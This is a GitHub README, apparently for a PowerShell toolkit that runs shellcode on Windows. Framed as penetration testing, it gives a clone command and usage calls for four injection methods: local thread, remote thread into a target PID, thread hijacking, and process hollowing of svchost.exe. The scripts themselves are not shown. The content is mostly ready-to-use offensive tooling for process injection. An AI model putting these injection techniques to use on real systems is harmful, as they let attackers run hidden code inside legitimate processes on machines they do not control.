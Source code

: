# **PowerShell-Shellcode-Exec**

PowerShell is an excellent tool built into Windows. Because of this, we can leverage it against any standard computer with basic knowledge of the .NET framework. Shellcode execution may be a vital aspect to penetration testing and must be accomplished.

There are many ways to get shellcode executed on a device, but I will be going over 2 execution methods and 4 types of shellcode execution.

### **Setup**

```powershell
git clone https://github.com/SilentisVox/PowerShellcode-Shellcode-Exec
cd PowerShellcode-Shellcode-Exec
```

### **Usage**

```powershell
cd "./Standard Windows API"

. "./Local Thread/Invoke-ShellcodeViaLocalThread.ps1"
. "./Remote Thread/Invoke-ShellcodeViaRemoteThread.ps1"
. "./Thread Hijack/Invoke-ShellcodeViaThreadHijack.ps1"
. "./Process Hollow/Invoke-ShellcodeViaProcessHollow.ps1"

Invoke-ShellcodeViaLocalThread -Shellcode $Shellcode -Verbose
Invoke-ShellcodeViaRemoteThread -Shellcode $Shellcode -TargetPID 1234 -Verbose
Invoke-ShellcodeViaThreadHijack -Shellcode $Shellcode -TargetPID 1234 -TargetTID 5678 -Verbose
Invoke-ShellcodeViaProcessHollow -Shellcode $Shellcode -ProcessPath "C:\Windows\System32\svchost.exe" -Verbose
```

```powershell
cd "./Function Resolutions"

. "./Local Thread/Invoke-ShellcodeViaLocalThread.ps1"
. "./Remote Thread/Invoke-ShellcodeViaRemoteThread.ps1"
. "./Thread Hijack/Invoke-ShellcodeViaThreadHijack.ps1"
. "./Process Hollow/Invoke-ShellcodeViaProcessHollow.ps1"

Invoke-ShellcodeViaLocalThread -Shellcode $Shellcode -Verbose
Invoke-ShellcodeViaRemoteThread -Shellcode $Shellcode -TargetPID 1234 -Verbose
Invoke-ShellcodeViaThreadHijack -Shellcode $Shellcode -TargetPID 1234 -TargetTID 5678 -Verbose
Invoke-ShellcodeViaProcessHollow -Shellcode $Shellcode -ProcessPath "C:\Windows\System32\svchost.exe" -Verbose
```

## **Brief Explanation**

![Ghost](assets/Ghost.jpg)
